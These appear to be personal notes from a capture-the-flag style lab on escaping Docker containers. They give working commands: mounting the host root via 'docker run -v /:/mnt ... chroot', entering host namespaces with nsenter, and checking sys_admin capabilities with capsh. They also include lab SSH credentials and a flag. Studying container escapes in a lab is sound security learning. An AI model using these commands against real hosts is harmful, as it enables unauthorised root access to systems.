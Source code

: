 MOUNT HOST VOLUMES
the AttackBox has Alpine Linux already but normally you need to upload this image to the container before you execute it

mount a host directory to a new container then connect to it and access host OS
- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- `whoami`  root
- `id`
- `groups`
- exit 

---

Namespaces essentially segregate system resources such as processes, files and memory away from other namespaces.
- namespace
- process ID (PID)

Ubuntu uses `systemd` and controls processes

connect to instance via SSH
- `x.x.x.x`
- SSH port 2244
- `root:danny`
- `ssh root@x.x.x.x -p 2244`
- `ps aux`

use the [nsenter command](https://man7.org/linux/man-pages/man1/nsenter.1.html) which allows you to execute start processes and place them within the same namespace as another process
- `nsenter --target 1 --mount sh`
- targeting the `/sbin/init` 
- ` cd /home` = `cmnatic`
- `hostname` = ` 63b932f4d7d2 `
- `hostnamectl` 
![[Screen Shot 2023-10-05 at 12.35.48 PM.png]]

## Misconfigured Privileges

Docker can run as:
- user mode
- privileged mode, bypasses Docker engineer and has direct communication with OS

use the system package `libcap2-bin capsh` to list capabilities for container
- `capsh --print`
- start a new machine

CONNECT via SSH
- `x.x.x.x`
- SSH port 2244
- `root:danny`
- `capsh --print | grep sys_admin`
- this allows us to do various things listed [here](https://linux.die.net/man/7/capabilities)
- focus is on `sys_admin` being able to mount files from host OS into container
- `cd /` > `ls` = flag.txt
- ` thm{you_escaped_the_chains} `

---